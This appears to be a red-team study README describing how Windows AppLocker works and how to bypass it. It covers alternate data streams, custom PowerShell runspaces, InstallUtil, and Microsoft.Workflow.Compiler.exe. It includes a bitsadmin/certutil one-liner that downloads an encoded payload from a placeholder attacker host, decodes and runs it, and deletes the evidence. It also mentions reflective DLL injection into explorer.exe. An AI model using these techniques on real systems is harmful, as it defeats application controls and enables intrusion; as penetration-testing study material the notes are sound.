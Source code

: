 ## Application Whitelisting Theory
 Application whitelisting software uses a custom driver to register a callback function through this PsSetCreateProcessNotifyRoutineEx API. The callback is invoked every time a new process is created and detemine whether or not an application is whitelisted. Microsoft has multiple native application whitelisting soultions.  AppLocker was introduced in Win7 and avaiable in Win10.
 
 AppLocker includes kernel-mode driver APPID.SYS and the APPIDSVC user-mode service. APPIDSVC manages the whitelisting ruleset and identifies applications when they are run based on the callback notifications from APPID.SYS.
 
 AppLocker has 3 rule categories:
 - 1.Based on FilePath
 - 2.Based on file hash(SHA256)
 - 3.Based on digital signature

 You can access AppLocker in command prompt -> gpedit.msc(GPO configuration manager)->Local Computer Policy -> Computer
Configuration -> Windows Settings -> Security Settings -> Application Control Policies->AppLocker. There will be 4 rule propertites for 4 separate file types
- 1 .exe executable files
- 2 .msi Windows Installer files
- 3 .powershell , jscript, VB, .cmd and .bat native script files
- 4 Packaged Apps from Microsoft App Store
 
 Group Policy, AppLocker violation can be review in Windows event log. eventvwr->Applications and Services Logs -> Microsoft -> Windows -> AppLocker
 
 ## Basic Bypasses
- 1.Check permission for default rules for AppLocker whitelist all executables and scripts located in C:\Program Files, C:\Program Files (x86), and C:\Windows
- 2.Identify writable floder by a user using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk). -u supress error, -w writable directories, -s recurese search.
```
C:\users\mst>accesschk.exe "mst" C:\Windows -wus
```
icacls can tell is a folder path is executable 
```
C:\users\mst>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
```
- 3.The default ruleset doesn’t protect against loading arbitrary DLLs. If we were to create an unmanaged DLL, we would be able to load it and trigger exported APIs to gain
arbitrary code execution.
- 4.Alternate Date Steams is a binary file attribute that contains metadata. We can append binary data if additional streams to the original file. If we can find a file that a current user can write and execute. The below code append test.js to a log file. And we can execute it.
```
C:\Users\mst>type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\Users\mst>wscript "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
- 5.Third Party Execution. If a third-party scripting engine like Python or Perl is installed, we could use it to very easily bypass application whitelisting.
```
C:\Users\mst>python test.py
```
## Bypass AppLocker with Powershell
Powershell Language Mode: 
- 1.FullLanguage, allows all cmdlets and the entire .NET framework as well as C# code execution.
- 2.RestrictedLanguage, allowing default cmdlets but heavily restricting much else
- 3.NoLanguage disallows all script text

ConstrainedLanguage mode (CLM) with PowerShell version 3.0, allow scripts that are located in whitelisted locations or otherwise comply with a whitelisting rule can execute with full functionality. The most significant limiation excludes calls to the .NET framework, execution of C# code and reflection.

```
PS C:\Users\mst> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
#### Bypass Constrained language mode(CLM) with custom runsapces
Powershell call **System.Management.Automation.dll** to create runspace. This measns, we can write c# [powershellrunnerSpace.cs](/06ApplicationWhitelistingBypass/powershellrunnerSpace.cs) to creates a custom PowerShell runsapce and executes our script inside it. 

The above bypass the powershell execution, but if the AppBlocker pervent custom c# execution, our TTPs will not work. We can leverage native Windows application **InstallUtil**.
This command allows us to install and uninstall server resources by executing the installer components in a specified assembly. We are going to user uninstall method because install method reuqired admin privileges.

We can write [installer.cs](/06ApplicationWhitelistingBypass/Installer.cs) script and compile to our bypass.exe. Once compiled, we can use native windows commands to transfer our file from attack machine to target machine and exuecte it with InstallUtil command.

First, we can encode our exe on our attack machine, host the encoded file

```
C:\Users\mst>certutil -encode C:\Users\mst\Bypass.exe file.txt
```

Second trafer the file to target, decode and execute, and remove encoded file
```
C:\Users\target>bitsadmin /Transfer myJob http://yourip/file.txt C:\users\target\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\target\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= LogToConsole=false /U C:\users\target\Bypass.exe
```
Now we have a bypass method, we will update our Installer.cs to [InsallerShell.cs](/06ApplicationWhitelistingBypass/InstallerShell.cs) which use [Invoke-ReflectivePEInjection PowerShell](/03ProcessInjectionMigration/Invoke-ReflectivePEInjection.ps1) to inject a dll into explorer.exe

## Bypass AppLocker with C# via whitelisted application
The ultimate goal is to execute arbitrary C# code via a whitelisted application. It means target application must either accept a pre-compiled executable as an argument and load it into memory or compile it itself. The application must load unsigned managed code into memory. This is typically done through APIs like Load,457 LoadFile458 or LoadFrom.

- 1.We must reverse enginner assemblies which reside in whitelisted locations in search of the code segments that either load precompiled managed code or use source code
which is compiled as part of the processing.
- 2.We will use [dnSpy](https://github.com/dnSpy/dnSpy.git) to reverse engineering System.Workflow.ComponentModel.dll located in C:\Windows\Microsoft.NET\Framework64\v4.0.30319
- 3.We will follow security researcher Matt Graeber's [rbitrary, Unsigned Code Execution Vector in Microsoft.Workflow.Compiler.exe](https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb) blog for reverse engineering.
- 4.In summary, we must craft a file containing C# [Compilerbypass.cs](/06ApplicationWhitelistingBypass/Compilerbypass.cs) code, which implements a class that inherits from the Activity class and has a constructor. The file path must be inserted into the XML document along with compiler parameters organized in a serialized format using [Convertoxml.ps1](/06ApplicationWhitelistingBypass/Convertoxml.ps1) script. 
- 5.run the executable with the two input arguments, the second argument can be anything, the first argument is the output from Convertoxml.ps1 script

```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```

